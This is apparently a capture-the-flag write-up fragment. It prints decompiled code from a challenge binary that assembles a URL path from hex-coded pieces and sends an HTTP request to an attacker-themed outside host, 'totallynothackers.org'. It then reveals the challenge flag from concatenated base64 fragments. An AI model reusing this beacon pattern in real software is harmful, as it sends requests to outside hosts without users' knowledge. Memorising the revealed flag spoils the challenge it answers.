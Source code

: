 ```d
  local_1f8 = "/56/32";
  local_200 = "/74/47";
  local_208 = "/58/32";
  local_210 = "/63/31";
  local_218 = "/56/73";
  local_220 = "/4a/39";
  strcat(local_3c8,"/4d/44");
  strcat(local_3c8,local_1a0);
  strcat(local_3c8,local_178);
  strcat(local_3c8,local_190);
  strcat(local_3c8,local_1c0);
  strcat(local_3c8,local_198);
  strcat(local_3c8,local_1b0);
  strcat(local_3c8,local_1b8);
  strcat(local_3c8,local_1d0);
  strcat(local_3c8,local_200);
  strcat(local_3c8,local_1e0);
  strcat(local_3c8,local_218);
  strcat(local_3c8,local_210);
  strcat(local_3c8,local_1c8);
  strcat(local_3c8,local_1f0);
  strcat(local_3c8,local_188);
  strcat(local_3c8,local_208);
  strcat(local_3c8,local_1a8);
  strcat(local_3c8,local_1e8);
  strcat(local_3c8,local_1f8);
  strcat(local_3c8,local_180);
  strcat(local_3c8,local_220);
  local_228 = "https://www.totallynothackers.org";
  strcpy(local_478,"https://www.totallynothackers.org");
  strcat(local_478,local_3c8);
  iVar2 = InternetCheckConnectionA(local_228,1,0);
  if (iVar2 == 0) {
    ShellExecuteA((HWND)0x0,"open","https://www.youtube.com/watch?v=z_mUo5Zg-GM",(LPCSTR)0x0,
                  (LPCSTR)0x0,1);
  }
  else {
    HttpSendRequestA(local_478,0,0xffffffff,0,(ulonglong)lpData & 0xffffffff00000000);
  }
  return (int)(iVar2 == 0);
}
```

The parts of base64 get concatenated to make `MDIgLSBkZWFkZmFjZXtJdHNfYmVlbl9hX3doaWxlfQ==` which decodes to the flag.

Found in these lines:
```shell
  local_80 = "aWxl";
  local_88 = "bl9h";
  local_90 = "dHNf";
  local_98 = "LSBk";
  local_a0 = "ZmFj";
  local_a8 = "ZXtJ";
  local_b0 = "ZWFk";
  local_b8 = "YmVl";
  local_c0 = "X3do";
  local_c8 = "MDIg";
  local_d0 = "fQ==";
```
